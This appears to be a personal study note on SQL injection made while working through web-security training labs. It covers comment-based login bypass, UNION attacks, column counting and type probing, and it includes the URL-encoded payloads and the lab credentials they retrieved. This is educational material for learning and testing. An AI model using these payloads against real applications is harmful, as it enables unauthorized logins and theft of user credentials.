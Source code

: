 # SQL injection

## Example 1

https://insecure-website.com/products?category=Gifts

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

https://insecure-website.com/products?category=Gifts'--

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

https://insecure-website.com/products?category=Gifts%27+OR+1=1--

## URL decoding

- Single quote ('): %27 `encodeURIComponent` does **NOT** encode single quote
- Double qoute ("): %22
- space ( ): + or %20
- Comma (,): %2C

To build URL, using Chrome debug console to run `encodeURIComponent("Gifts' UNION SELECT NULL,NULL,NULL--")`

## Lab: SQL injection vulnerability allowing login bypass

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'

-- bypass the password
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'bluecheese'
```

Login as administrator, with any password.

From Burp Suite, intercept POST request

```
// From
csrf=nc1SgyYgCJsHaE3oyFvpZYV6vw0s4dAG&username=administrator&password=password
// To
csrf=nc1SgyYgCJsHaE3oyFvpZYV6vw0s4dAG&username=administrator'--&password=password
```

## Retrieving data from other database tables

### Union attacks

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

Union rules

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

### Example

```sql
SELECT name, description FROM products WHERE category = 'Gifts'
UNION SELECT username, password FROM USERS--
```

Given input "Gifts", attacker submit the input:

```
' UNION SELECT username, password FROM USERS--
```

### Determining # of columns

```
' ORDER BY 1-- order by first column
' ORDER BY 2--
' ORDER BY 3--
...
```

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

### Lab: SQL injection UNION attack, determining the number of columns returned by the query

```
page?category=Accessories%27+union+select+null,null,null--
```

In Oracle, every `SELECT` requires a table. Use build-in table on Oracle called `DUAL`. e.g. `' UNION SELECT NULL, NULL FROM DUAL--`

### Finding columns data type

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

### Lab: SQL injection UNION attack, finding a column containing text

```javascript
encodeURIComponent("Gifts' UNION SELECT NULL,'TrA8nZ',NULL--")
// page?category=Gifts%27%20UNION%20SELECT%20NULL%2C%27TrA8nZ%27%2CNULL--
```

### LAB: SQL injection UNION attack, retrieving data from other tables

```javascript
encodeURIComponent("Accessories' union select username,password from users--")
// page?category=Accessories%27%20union%20select%20username%2Cpassword%20from%20users--
// administrator 5wmz82
```

### Lab: SQL injection UNION attack, retrieving multiple values in a single column

```
-- Oracle
' UNION SELECT username || '~' || password FROM users--

-- SQL
' UNION SELECT username + '~' + password FROM users--
```

```
administrator~s3cure
wiener~peter
carlos~montoya
...
```

```javascript
encodeURIComponent("Accessories' union select null,null--")
encodeURIComponent("Accessories' union select 'a',null--")
encodeURIComponent("Accessories' union select null,'a'--")
encodeURIComponent("Accessories' union select null, username from users--")
encodeURIComponent("Accessories' union select null, password from users--")
encodeURIComponent("Accessories' union select null, username + '~' + password from users--")
encodeURIComponent("Accessories' union select null, username || '~' || password from users--")
// Accessories'%20union%20select%20null%2C%20username%20%7C%7C%20'~'%20%7C%7C%20password%20from%20users--
// administrator~ajwpth
```

[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
